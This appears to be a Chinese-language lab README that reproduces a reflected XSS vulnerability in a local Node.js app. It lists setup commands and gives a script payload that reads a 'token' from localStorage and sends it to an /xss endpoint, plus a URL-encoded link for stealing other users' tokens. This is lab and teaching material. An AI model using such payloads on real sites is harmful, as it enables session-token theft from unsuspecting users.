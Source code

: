 ### 反射型XSS复现

##### 问题描述：

反射型XXS是一种非持久性的攻击，它指的是恶意攻击者往Web页面里插入恶意代码，当用户浏览该页之时，嵌入其中Web里面的html代码会被执行，从而达到恶意攻击用户的目的。

##### 必要条件：

1.能够通过get的方式传参，例如：

```
example.com/index.html?name=exp
```

2.恶意代码没有被处理。

3.恶意能被浏览器成功执行。

##### 复现步骤：

```
npm install
node .\bin\www
```

访问http://127.0.0.1:3000，在输入框输入。

1. 输入任意字符，url变为http://127.0.0.1:3000/index.html?welcome=Hello,%20ex，满足条件1。

2. 输入

   ```
   <script>alert(a)<script>
   ```

3. 步骤2的代码能够执行，说明满足条件2、3，准备获取存在localStorage里的token。

4. 输入并执行

   ```
   <script>window.onload=function(){var a=localStorage.getItem('token');window.location.href=`http://127.0.0.1:3000/xss?token=${a}`;}</script>
   ```

5. 发现后端提示已获取token。

6. 通过如下url吊取他人token：

   ```
   http://127.0.0.1:3000/index.html?welcome=%3Cscript%3Ewindow.onload=function(){var a=localStorage.getItem('token');window.location.href=`http://127.0.0.1:3000/xss?token=${a}`;}%3C/script%3E
   ```

   

